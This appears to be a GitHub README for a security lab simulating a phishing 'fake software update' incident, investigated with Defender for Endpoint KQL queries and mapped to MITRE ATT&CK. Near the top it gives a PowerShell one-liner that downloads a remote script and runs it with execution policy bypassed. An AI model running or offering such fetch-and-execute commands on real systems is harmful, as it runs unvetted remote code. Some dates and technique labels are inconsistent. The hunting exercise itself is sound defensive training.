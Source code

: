 

# 🚨 **Incident Response: Phishing via Fake Software Update** 🚨  

<img width="700*500" src="https://github.com/user-attachments/assets/56e78020-f6aa-453d-94cb-f1096e0bab1a" alt="Tor Logo with the onion and a crosshair on it"/>

---

### 🛡️ **Scenario Overview**  
- **Organization**: 🏢 Medium-sized FinTech company.  
- **Threat**: Employees report unusual system behavior after clicking on a suspicious software update notification.  
- **Objective**: Identify the phishing campaign’s scope, mitigate its impact, and strengthen defenses.  

---

### 🌐 **The PowerShell Payload**  
Run the PowerShell command below on your VM **after onboarding it to MDE**:
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/VanessaMancia/PowerShell-test-script/refs/heads/main/testscript.ps1' -OutFile 'C:\ProgramData\phishingFakeSoftwareUpdate.ps1'; cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\ProgramData\phishingFakeSoftwareUpdate.ps1
```

https://raw.githubusercontent.com/VanessaMancia/PowerShell-test-script/refs/heads/main/testscript.ps1

---

![Screenshot 2025-01-26 181108](https://github.com/user-attachments/assets/ae028dcd-fe4d-420a-94a3-c68dd922c05b)

![Screenshot 2025-01-26 130233](https://github.com/user-attachments/assets/1fafdb38-ba32-4b29-b86f-dbb693dbfc0e)

---
### 💻 **Platforms and Tools Leveraged**  
- **SIEM**: Microsoft Sentinel  
- **Endpoint Protection**: Microsoft Defender for Endpoint  
- **Query Language**: Kusto Query Language (KQL)  
- **Infrastructure**: Windows 10 VMs on Microsoft Azure  

---

## 🕵️‍♂️ **High-Level IoC Discovery Plan**  
**Focus Areas**:  
1️⃣ Check **DeviceFileEvents** for suspicious file activity. 
2️⃣ Check **DeviceProcessEvents** for signs of malicious execution.  
3️⃣ Check **DeviceNetworkEvents** for outgoing connections, especially over known malicious ports.  

---

### 🔍 **KQL Queries**  

**Query: Recent File Events**  
```kql
DeviceFileEvents
| top 50 by Timestamp desc
```

**Query: Network Events**  
```kql
DeviceNetworkEvents
| top 50 by Timestamp desc
```

**Query: Process Events**  
```kql
DeviceProcessEvents
| top 50 by Timestamp desc
```

---

## 📊 **Threat Timeline**  

### 1️⃣ **File Download (Initial Access)**  
- **TTP**: [T1193](https://attack.mitre.org/techniques/T1193) - Spear Phishing Link  
- **Event**: Employees receive a phishing email that mimics IT, containing a link to a "critical software update."  
- **Impact**: The link leads to downloading a PowerShell payload.  

**Relevant Query**:  
```kql
DeviceFileEvents
| where DeviceName == "nessa-windows"
| where InitiatingProcessAccountName == "bigmomma"
| where FileName contains "ps1"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine, InitiatingProcessAccountName
| order by Timestamp desc 
```
![Screenshot 2025-01-26 131545](https://github.com/user-attachments/assets/f190fc54-f255-4099-a429-46a419cea15f)

---

### 2️⃣ **Process Execution**  
- **TTP**: [T1059.001](https://attack.mitre.org/techniques/T1059/001) - PowerShell Execution  
- **Event**: Malicious PowerShell script execution on victim devices.  
- **Query Used**:  
```kql
let specificTime = datetime(2025-06-30T20:42:15.0207278Z);
DeviceProcessEvents
| where Timestamp between ((specificTime - 2m)..(specificTime +2m))
| where DeviceName == "nessa-windows"
| order by Timestamp desc 
```

![Screenshot 2025-01-26 133010](https://github.com/user-attachments/assets/fb1a3ed6-c915-42fc-865a-d1eb1fe45cff)

---

```kql
DeviceProcessEvents
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "phishingFakeSoftwareUpdate.ps1"
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessAccountName, InitiatingProcessCommandLine
| order by Timestamp desc
```
![Screenshot 2025-01-26 134312](https://github.com/user-attachments/assets/b64c07c0-13a4-4e54-9aa2-aa3e762c2fff)

---


### 3️⃣ **Network Connection to C2 Server**  
- **TTP**: [T1071.001](https://attack.mitre.org/techniques/T1071/001) - Web Protocols  
- **Event**: Communication with a C2 server over the internet, potentially exfiltrating credentials.  
- **Query Used**:  
```kql
union DeviceNetworkEvents, DeviceProcessEvents
| where Timestamp > ago(6h)
| where DeviceName == "nessa-windows"
| where RemoteUrl contains "raw.githubusercontent.com" or InitiatingProcessCommandLine has "phishingFakeSoftwareUpdate.ps1"
| project Timestamp, DeviceName, RemoteUrl, RemoteIP, InitiatingProcessCommandLine, FileName, FolderPath, ActionType
| order by Timestamp desc
```
![Screenshot 2025-01-26 140306](https://github.com/user-attachments/assets/92b90182-bdcb-4d0b-a86a-df3a193d96f4)

---

### 4️⃣ **Lateral Movement & Credential Dumping**  
- **TTP**:  [T1210](https://attack.mitre.org/techniques/T1210) - Exploitation of Remote Services  
- **Event**: Several other devices Communicating with the C2 server over the internet, potentially exfiltrating credentials.  
- **Query Used**:  
```kql
union DeviceNetworkEvents,DeviceProcessEvents
| where Timestamp > ago(6h)
| where RemoteUrl contains "raw.githubusercontent.com" or InitiatingProcessCommandLine has "phishingFakeSoftwareUpdate"
| project Timestamp, DeviceName, RemoteUrl, RemoteIP, InitiatingProcessCommandLine, FileName, FolderPath, ActionType
| order by Timestamp desc
```
![image](https://github.com/user-attachments/assets/eaef1372-e359-4f12-8d78-b770aed23944)


---

## 🛠️ **Mitigation Steps**  

### 🔒 Containment  
1️⃣ Block the malicious domain on the firewall and DNS servers.  
2️⃣ Disable compromised user accounts and enforce password resets.  
3️⃣ Isolate infected machines from the network.  

### 🧹 Eradication  
1️⃣ Deploy updated antivirus signatures to detect and remove the malware.  
2️⃣ Conduct system-wide scans using EDR tools.  

### 🔄 Recovery  
1️⃣ Restore affected systems from backups.  
2️⃣ Re-enable user access after ensuring systems are clean.  

---

## 🧠 **Post-Incident Improvements**  

### 🚀 Proactive Monitoring  
- Enhanced SIEM rules for detecting phishing emails.  
- Integration of threat intelligence feeds to block new malicious domains.
- Create a Rule to detect this. 

### 📚 User Awareness  
- Mandatory phishing training with simulation tests.  
- Quick-reference phishing awareness guide shared via email.  

---

### 📈 **Mapped TTPs to MITRE ATT&CK Framework**  

| Tactic             | Technique                             | ID        | Example                             |  
|---------------------|---------------------------------------|-----------|-------------------------------------|  
| **Initial Access**  | Spear Phishing Link                  | T1193     | Phishing email with fake update link |  
| **Execution**       | PowerShell Execution                 | T1059.001 | Malicious PowerShell script executed |  
| **Command & Control** | Web Protocols                     | T1071.001 | C2 communication to exfiltrate data |  
| **Credential Access** | Credentials in Files              | T1555.003 | Stolen credentials from payload use |  
| **Lateral Movement**  | Exploitation of Remote Services    | T1210     | Attempts to pivot to other devices  |  

---

